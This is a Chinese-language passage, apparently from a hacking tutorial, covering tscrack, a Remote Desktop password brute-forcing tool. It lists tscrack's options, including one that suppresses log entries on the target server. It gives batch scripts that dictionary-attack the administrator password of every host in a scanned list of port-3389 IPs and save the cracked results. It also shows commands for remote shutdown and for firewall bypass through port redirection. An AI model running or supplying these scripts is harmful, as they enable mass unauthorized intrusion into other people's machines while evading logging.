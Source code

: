 　　-v 显示版本信息

　　-s 在屏幕上打出解密能力

　　-b 密码错误时发出的声音

　　-t 同是发出多个连接（多线程）

　　-N Prevent System Log entries on targeted server

　　-U 卸载移除tscrack组件

　　-f 使用－f后面的密码

　　-F 间隔时间（频率）

　　-l 使用－l后面的用户名

　　-w 使用－w后面的密码字典

　　-p 使用－p后面的密码

　　-D 登录主页面

　　用法示例

　　tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码

　　tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户

　　@if not exist ipcscan.txt goto noscan

　　@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i

　　nscan

　　@echo 3389.txt no find or scan faild

　　(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)

　　3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat

　　@if not exist tscrack.exe goto noscan

　　@tscrack %1 -l administrator -w pass.dic >>rouji.txt

　　:noscan

　　@echo tscrack.exe no find or scan faild

　　(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)

　　hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。

　　其它

　　Shutdown.exe

　　Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）

　　fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）

　　fpipe -l 80 -s 1029 -r 80 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息
